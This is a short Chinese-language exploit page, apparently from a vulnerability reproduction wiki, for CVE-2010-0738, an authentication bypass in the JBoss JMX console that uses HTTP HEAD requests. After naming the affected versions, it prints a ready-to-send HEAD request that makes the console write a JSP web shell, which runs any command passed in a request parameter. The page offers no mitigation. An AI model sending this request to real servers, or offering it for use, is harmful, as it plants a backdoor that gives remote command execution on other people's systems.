 ```yaml
---
title: （CVE-2010-0738）JBoss JMX控制台安全验证绕过漏洞
id: zhfly2981
---
```


# （CVE-2010-0738）JBoss JMX控制台安全验证绕过漏洞

## 一、漏洞简介

这个漏洞利用方法跟CVE-2007-1036一样，不过这个是绕过了get和post传输限制，利用head传输方式发送payload

## 二、漏洞影响

jboss4.2.0 and jboss 4.3.0

## 三、复现过程

因为跟上个漏洞利用差不多，只不过用了head传输方式，我这里就直接贴payload了

```
HEAD /jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodIndex=6&arg0=..%2Fjmx-console.war%2F&arg1=hax0rwin&arg2=.jsp&arg3=<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True HTTP/1.1

Host: hostx:portx

User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.1.9) Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-us,en;q=0.5

Accept-Encoding: gzip,deflate

Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7

Keep-Alive: 300 `Proxy-Connection: keep-alive` 
```